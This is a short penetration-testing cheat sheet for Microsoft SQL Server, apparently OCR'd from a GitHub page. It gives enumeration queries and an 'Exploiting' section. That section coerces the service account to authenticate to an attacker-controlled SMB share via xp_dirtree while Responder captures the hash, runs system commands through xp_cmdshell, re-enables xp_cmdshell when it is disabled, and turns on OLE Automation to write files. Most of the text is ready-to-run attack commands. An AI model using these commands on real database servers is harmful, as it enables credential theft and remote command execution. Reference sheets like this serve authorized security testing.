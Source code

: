 **View Table Contents**

```sql
1> select * from <table_name>`
```

**Get Current User/Role**

```sql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
```

### **Exploiting**

#### **Steal MSSQLSVC Account Hash**

```bash
responder -I <interface>
```

```sql
1> exec master..[xp_dirtree|xp_subdirs] '//<attacker_ip>/<share_name>'
```

#### **XP_CMDSHELL**

```sql
xp_cmdshell '<cmd>'
```

If Disabled:

```sql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
#### **Write Files**

Enable OLE Automation Procedures

```sql
1> sp_configure 'show advanced options', 1
2> RECONFIGURE
3> sp_configure 'Ole Automation Procedures', 1
4> RECONFIGURE
```
